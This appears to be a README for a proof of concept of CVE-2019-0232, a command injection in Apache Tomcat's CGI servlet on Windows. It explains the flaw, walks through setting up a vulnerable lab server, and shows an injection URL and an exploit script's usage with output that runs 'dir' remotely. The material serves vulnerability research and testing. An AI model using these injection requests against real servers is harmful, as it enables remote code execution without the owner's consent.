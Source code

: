 # CVE-2019-0232

We present a PoC for CVE-2019-0232

`Vulnerable versions`: Apache Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 on Windows

When `enableCmdLineArguments` is `true` in CGI servlet, there is a Remote Code Execution vulnerability due the way in which JRE passes command line arguments to Windows.

## The Vulnerability

This vulnerability is specific to Windows because of the way Windows handles command line arguments. Processes in Windows are created using a single command line parameter which is later parsed to get the separate arguments. 

The rules for quoting the command line arguments are vague, and hence user controlled arguments can be used to break the way Windows parses them and get code execution.

The interesting part is that when batch files (.cmd and .bat) are executed, they are excuted inside the `cmd.exe` encvironment. So, `file.bat` is converted to `C:\Windows\system32\cmd.exe /c "file.bat …"` and additional quoting is required to avoid command injection. But Java does not provide this quoting and hence breaking out of `file.bat` becomes easier and we can chain `evil.bat` using `file.bat&evil.bat`. Now, both `file.bat` and `evil.bat` will be executed by `cmd.bat` instead of only executing `file.bat`.  

So, The CGI request `http://localhost:8080/cgi/test.bat?&dir` is converted to `test.bat &dir` and `cmd.exe` interprets them as running `test.bat` and `dir` in conjunction.

## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

1. Enabling privileged context for CGI servlet support

In `%CATALINA_HOME%\conf\context.xml` modify

`<Context>` to `<Context privileged="true">`

![privileged_context](./img/priviledge_context.png)

2. Enabling CGI servlet and enabling `enableCmdLineArguments`

![cgi_servlet](./img/cgi_servlet.png)

3. Setting correct Servlet mapping

![servlet_mapping](./img/servlet_mapping.png)

4. Creating the `cgi` folder and adding a `test.bat` file.

Create a folder called `cgi` in `%CATALINA_HOME%\webapps\ROOT\WEB-INF\`

Create a file `test.bat` in 
`%CATALINA_HOME%\webapps\ROOT\WEB-INF\cgi\test.bat`

with contents (A simple hello world CGI script)

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

ROOT is the web application mapped to /, so we have added a CGI script at URI `/cgi/test.bat`

## Running PoC

A sample check can be to test:

`http://localhost:8080/cgi/test.bat?&dir`

This should give out the Directory contents of the hosted server. 

The PoC is given [here](./exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] -s PATH -c COMMAND host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -s PATH, --path PATH  Path of CGI script
  -c COMMAND, --command COMMAND
                        Command to run
```

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -s cgi/test.bat -c dir 3.140.7.1```
```
[*] Sending command
[*] Result:
Hello, World!
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Downloads\apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\webapps\ROOT\WEB-INF\cgi

03/26/2021  01:05 PM    <DIR>          .
03/26/2021  01:05 PM    <DIR>          ..
03/26/2021  01:04 PM    <DIR>          %SystemDrive%
03/26/2021  11:59 AM                67 test.bat
               1 File(s)             67 bytes
               3 Dir(s)  14,794,878,976 bytes free
```
